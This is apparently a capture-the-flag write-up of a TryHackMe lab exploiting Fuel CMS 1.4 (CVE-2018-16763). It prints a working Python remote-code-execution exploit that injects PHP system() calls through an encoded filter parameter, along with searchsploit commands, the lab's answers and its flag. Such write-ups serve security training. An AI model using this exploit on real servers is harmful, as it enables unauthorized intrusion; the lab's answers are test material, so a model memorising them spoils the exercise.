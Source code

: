 # Vulnerability Capstone

{% embed url="https://tryhackme.com/room/vulnerabilitycapstone" %}
https://tryhackme.com/room/vulnerabilitycapstone
{% endembed %}

## Task 2 Exploit the Machine (Flag Submission)

#### What is the name of the application running on the vulnerable machine?

{% hint style="success" %}
`Fuel CMS`
{% endhint %}

#### What is the version number of this application?

![](<../../.gitbook/assets/Screenshot from 2022-04-03 19-16-21.png>)

{% hint style="success" %}
`1.4`
{% endhint %}

#### What is the number of the CVE that allows an attacker to remotely execute code on this application?

![](<../../.gitbook/assets/Screenshot from 2022-04-03 19-19-04.png>)

{% hint style="success" %}
`CVE-2018-16763`
{% endhint %}

#### Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

```bash
searchsploit fuel cms 1.4
searchsploit -m 47138
vim 47138.py
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 19-35-18.png>)

```python
import requests
import urllib

url = "http://10.10.14.36/"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

#### What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

```bash
python2 47138.py
ls -lA /home/ubuntu
cat /home/ubuntu/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 19-31-57.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 19-32-21.png>)

{% hint style="success" %}
`THM{ACKME_BLOG_HACKED}`
{% endhint %}
